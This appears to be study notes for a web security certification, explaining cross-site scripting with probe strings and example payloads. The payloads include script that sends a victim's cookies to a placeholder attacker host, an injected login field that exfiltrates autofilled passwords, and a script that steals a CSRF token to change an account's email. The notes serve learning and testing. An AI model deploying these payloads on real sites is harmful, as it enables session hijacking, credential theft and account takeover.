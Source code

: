 ##### PortSwigger BurpSuite Certification Summary
# XSS
The classic way of checking if there is a XSS vulnerability is invoking the `alert()` or `print()` function:
```
<script>alert(1)</script>
```

To show on which domain the JS code is executing on, this can be used:
```
<script>alert(document.domain)</script>
```
## Reflected XSS
This method of XSS is the simplest version and can be done when the application reflects data of a request in the response. For example, a parameter might be given with a request:
```
https://website.com/search?parameter=foo
```

Information can be sent to a host controlled by the attacker in the following way:
```
<script>
fetch('https://ATTACKER-HOST', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

This sends the user's cookie to the attacker's host, a common technique, as a user cookie allows for impersonation.

Another effective way of obtaining credentials is to make the user's password autocompletion fill in the password and sending it to the attacker. For this, a login form is used:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://ATTACKER-HOST',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Triggering some (for the attacker benefitial) action can sometimes be done directly, such as a password reset:
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
## XSS Context
It is important to understand where the attack vector lies, i.e. in which context the XSS will happen. 
